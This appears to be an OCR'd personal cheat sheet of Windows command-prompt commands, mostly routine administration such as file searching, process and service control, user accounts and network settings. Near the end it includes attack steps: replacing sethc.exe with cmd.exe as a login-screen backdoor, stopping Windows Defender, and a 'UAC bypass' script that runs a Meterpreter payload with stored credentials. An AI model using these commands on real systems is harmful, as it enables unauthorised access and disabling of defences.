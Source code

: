 start>run>cmd.exe
>start cmd.exe
>start cmd.exe /t:0a
>color /?
dir creation
>mkdir c:\temp
>echo hey > cmd.exe
>del cmd.exe
>notepad file.txt
clear the screen
>cls
current working directory
>cd 
to find particular string in output
>sc query | find "Event"
show contents of a file
>type c:\windows\win.ini
command history
Alt+F7
how many files are in system32
dir /b c:\windows\system32 | find /c /v ""
what is the length of ini file
type c:\windows\win.ini | find /c /v ""

taskmgr.exe
explorer.exe
regedit.exe
msconfig.exe
lusrmgr.msc
control
control schedtsks
evetvwr.msc
services.msc
secpol.msc

find hidden directory
>dir /aHD
searching directory
>dir /b /s c:\ | find /i "wmic.exe"
>dir /b /s wmic.exe
>dir /b /s *wmic*
>dir /b /s c:\wmic.exe
searching file conents
>findstr /d:c:\windows/system32 "Admin" *
>findstr "Admin" *.ini
The net user command
>net user
>net user fred passwd /add
>net user fred *
account details
>net user fred
account deletion
net user fred /del
change ip address
>netsh int ip set address "Local area connection" static 192.168.10.10 255.255.255.0 192.168.10.1
show firewall settings
>netsh firewall show config

show running process
>tasklist
>tasklist /src
>tasklist /fi "imagename eq cms.exe" /m
>tasklist /m ntdll.dll
kill process
>taskkill /PID [pid]
>taskkill /PID [pid] /PID [pid2]
>taskkill /IM cmd.exe

stop services
>sc query dhcp
>sc stop dhcp


copy d:\windows\system32\sethc.exe d:\
copy /y d:\windows\system32\cmd.exe d:\windows\system32\sethc.exe



Checking your Windows version using CMD
   • systeminfo
      OR
   • Run > winver
Find log files in directory
   •  dir /s *log* 

Process
   • tasklist
   • taskkill /F /PID pid_number


Disable windows defender:
   •  sc stop WinDefend


UAC bypass:
   •  echo $username = "alice" > run.ps1
   •  echo $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force >> run.ps1
     echo $mycreds = New-Object System.Management.Automation.PSCredential ("$username",$secpasswd) >> run.ps1
   •  echo Start-Process veil_meterpreter.bat  -Credential ($mycreds) >> run.ps1

   • powershell -ExecutionPolicy Bypass -File run.ps1 
